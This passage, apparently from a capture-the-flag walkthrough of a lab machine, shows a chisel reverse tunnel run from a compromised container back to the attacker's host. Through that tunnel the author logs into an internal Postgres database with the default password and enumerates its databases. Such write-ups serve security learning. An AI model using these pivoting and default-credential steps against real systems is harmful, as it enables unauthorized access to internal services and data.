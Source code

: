 I’ll connect from the container:

    
    
    /tmp # ./chisel_1.8.1_linux_amd64 client 10.10.14.6:8000 R:5432:172.22.0.1:5432
    

And there’s a connection at the server:

    
    
    2023/03/01 15:30:59 server: session#1: tun: proxy#R:5432=>172.22.0.1:5432: Listening
    

If there’s no connection, check that the server isn’t already listening on
5432. My Ubuntu image was, and I had to `sudo service postgresql stop` to free
that port (or I could have used another port).

#### Connect to Database

I’ll use `psql` as the Postgres client to access the database, with the
following options:

  * `-h 127.0.0.1` \- use my host (which has the tunnel to the container) as the host
  * `-p 5432` \- the port for the listening tunnel
  * `-U postgres` \- the username to connect as

I’ll enter “postgres” when prompted for the password, and it connects:

    
    
    oxdf@hacky$ psql -h 127.0.0.1 -p 5432 -U postgres
    Password for user postgres: 
    psql (14.6 (Ubuntu 14.6-0ubuntu0.22.04.1), server 13.7 (Debian 13.7-1.pgdg110+1))
    Type "help" for help.
    
    postgres=#
    

#### Enumerate Database

The DB has four databases:

    
    
    postgres=# \list
                                        List of databases
          Name       |  Owner   | Encoding |  Collate   |   Ctype    |   Access privileges   
    -----------------+----------+----------+------------+------------+-----------------------
     mentorquotes_db | postgres | UTF8     | en_US.utf8 | en_US.utf8 | 
     postgres        | postgres | UTF8     | en_US.utf8 | en_US.utf8 | 
     template0       | postgres | UTF8     | en_US.utf8 | en_US.utf8 | =c/postgres          +
                     |          |          |            |            | postgres=CTc/postgres
     template1       | postgres | UTF8     | en_US.utf8 | en_US.utf8 | =c/postgres          +
                     |          |          |            |            | postgres=CTc/postgres
    (4 rows)
    

`mentorquotes_db` is the interesting one. I’ll connect to that and list the
tables:
